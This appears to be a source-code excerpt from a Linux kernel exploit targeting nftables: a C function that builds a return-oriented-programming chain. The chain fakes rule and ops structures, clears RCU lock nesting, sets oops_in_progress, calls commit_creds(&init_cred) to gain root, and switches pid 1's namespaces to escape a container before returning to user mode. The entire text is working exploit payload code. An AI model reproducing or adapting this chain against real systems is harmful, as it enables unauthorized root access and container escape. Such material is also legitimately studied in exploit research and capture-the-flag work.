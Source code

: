 ```c
void rop_chain(uint64_t* data){
    int i = 0;

    // nft_rule_blob.size > 0
    data[i++] = 0x100;
    // nft_rule_blob.dlen > 0
    data[i++] = 0x100;

    // fake ops addr
    data[i++] = PAYLOAD_LOCATION(1) + offsetof(struct cpu_entry_area_payload, nft_expr_eval);

    // current = find_task_by_vpid(getpid())
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = getpid();
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // current += offsetof(struct task_struct, rcu_read_lock_nesting)
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = RCU_READ_LOCK_NESTING_OFF;
    data[i++] = kbase + ADD_RAX_RSI_RET;

    // current->rcu_read_lock_nesting = 0 (Bypass rcu protected section)
    data[i++] = kbase + POP_RCX_RET;
    data[i++] = 0;
    data[i++] = kbase + MOV_RAX_RCX_RET;

    // Bypass "schedule while atomic": set oops_in_progress = 1
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + OOPS_IN_PROGRESS;
    data[i++] = kbase + MOV_RSI_RDI_RET;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    data[i++] = kbase + POP_RSI_RET;
    data[i++] = 0;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```